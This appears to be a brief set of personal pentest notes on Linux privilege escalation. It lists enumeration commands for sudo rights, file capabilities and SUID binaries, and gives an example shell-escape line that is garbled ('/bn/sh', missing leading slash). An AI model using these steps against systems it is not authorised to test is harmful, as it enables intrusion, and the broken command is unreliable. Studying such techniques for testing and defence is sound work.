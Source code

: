 # Privilege Escalation

First, let's check the Linux version with the following command:

```shell
lsb_release -a
```

## Privilege Escalation using sudo -l
We try executing the following instruction to check which files we can run as root:

```shell
sudo -l
```

From there, we can search for the folder and the exploit that uses it to establish a reverse shell.

## Basic Privilege Escalation using CAPABILITIES

```shell
getcap -r / 2>/dev/null
```

This lists the packages or services that we can execute as root.

```shell 
#Ejemplo
/usr/bin/perl = cap_setuid+ep
```

## Privilege Escalation using Binaries

We search for files that we can execute as root with the current user:

```shell
find / -perm -4000 2>/dev/null
```

We consult the binary in GTFobins and look for any binary that we can execute with SUID permissions.
The exploit needs to use the full path.

```shell
usr/bin/env /bn/sh -p 
```

